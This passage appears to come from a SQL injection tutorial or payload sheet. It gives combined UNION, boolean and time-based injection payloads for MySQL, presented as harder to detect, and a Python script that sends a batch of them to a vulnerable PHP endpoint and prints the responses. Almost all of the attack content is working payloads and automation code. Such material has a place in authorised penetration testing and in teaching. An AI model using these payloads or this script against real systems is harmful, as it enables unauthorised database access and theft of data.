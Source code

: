 ### Combining Techniques

Combine multiple advanced techniques for robust and harder-to-detect payloads.

##### Example: Union with Time-Based Injection

Create a payload that uses both union and time-based injections:
```sql
' UNION SELECT IF((SELECT LENGTH(database()))>5, SLEEP(5), 0), 1, user(), 4 --
```

##### Example: Nested Union and Boolean Injection

Combine nested boolean conditions with union-based data extraction:
```sql
' UNION SELECT 1, IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables LIMIT 1), 1), 3, 4 --
```

### Automating with Custom Scripts

Automate these advanced techniques using custom scripts to efficiently test and extract data.

#### Example: Python Script for Advanced Union Injection

```python
import requests

url = "http://example.com/vulnerable.php"
payloads = [
    # Advanced Union-Based Injections
    "' UNION SELECT 1, version(), database(), user() FROM dual WHERE 1=CAST((SELECT COUNT(*) FROM information_schema.tables) AS INT) -- ",
    "' UNION SELECT 1, 0x62656e6368, 0x70617373776f7264, user() -- ",
    "' UNION SELECT 1, database(), (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), user() -- ",
    "' UNION SELECT 1, (SELECT column_name FROM db1.table1 LIMIT 1), (SELECT column_name FROM db2.table2 LIMIT 1), user() -- ",
    # Advanced Boolean-Based Injections
    "' AND IF((SELECT LENGTH(database()))>5, SLEEP(5), 0) -- ",
    "' AND IF((SELECT SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1), 1, 1))='a', SLEEP(5), 0) -- ",
    "' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables), 1) -- ",
    "' AND IF((SELECT ASCII(SUBSTRING((SELECT database()),1,1))) & 1, SLEEP(5), 0) -- ",
    # Combined Techniques
    "' UNION SELECT IF((SELECT LENGTH(database()))>5, SLEEP(5), 0), 1, user(), 4 -- ",
    "' UNION SELECT 1, IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables LIMIT 1), 1), 3, 4 -- ",
]

for payload in payloads:
    response = requests.get(url, params={"id": payload})
    print(f"Payload: {payload}")
    print(f"Response: {response.text}\n")
```
